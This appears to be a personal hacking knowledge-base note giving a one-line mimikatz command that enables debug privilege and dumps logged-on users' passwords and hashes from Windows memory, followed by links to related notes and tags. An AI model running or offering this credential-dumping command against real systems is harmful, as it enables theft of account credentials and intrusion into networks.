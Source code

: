 # mimikatz all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

# Related

- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:

    #assorted #hacking #windows #mimikatz

